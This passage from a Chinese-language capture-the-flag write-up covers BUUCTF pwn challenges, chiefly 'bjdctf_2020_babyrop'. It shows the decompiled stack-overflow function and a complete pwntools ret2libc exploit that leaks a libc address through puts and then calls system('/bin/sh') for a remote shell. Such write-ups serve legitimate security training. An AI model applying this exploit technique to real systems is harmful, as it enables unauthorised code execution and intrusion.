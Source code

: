 ```asm
.text:00000575                 sub     eax, 0FFFFFFF4h
.text:00000578                 int     80h             ; LINUX - sys_execve
.text:0000057A                 nop
.text:0000057B                 pop     ebp
.text:0000057C                 retn
.text:0000057C ; } // starts at 550
```

```python
from pwn import *
io = remote('node3.buuoj.cn',27311)
io.interactive()
```

## 0x15.bjdctf_2020_babyrop

一上来是两个puts，然后：

```c
ssize_t vuln()
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF
  puts("Pull up your sword and tell me u story!");
  return read(0, buf, 0x64uLL);
}
```

足够长，可以覆盖。

没有用LibcSearcher，一直说找不到，，，下了buu的libc好了。

```python
from pwn import *
context(log_level='DEBUG')
io = remote('node3.buuoj.cn',27222)
#io = process("./bjdctf_2020_babyrop")
elf = ELF('./bjdctf_2020_babyrop')
libc = ELF('libc-x64-2.23.so')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main = elf.sym['main']
pop_rdi_ret = 0x0000400733 

payload = 'a'*(0x20+0x8)+p64(pop_rdi_ret)+p64(puts_got)+p64(puts_plt)+p64(main)
io.recv()
io.sendline(payload)


puts_add = u64(io.recv(6).ljust(8, '\x00'))

base = puts_add - libc.sym['puts']
sys_add = base + libc.sym['system']
bin_sh = base + next(libc.search('/bin/sh'))

payload = 'a'*(0x20+0x8)+p64(pop_rdi_ret) +p64(bin_sh)+p64(sys_add)
io.send(payload)
io.recv()
io.interactive()
```
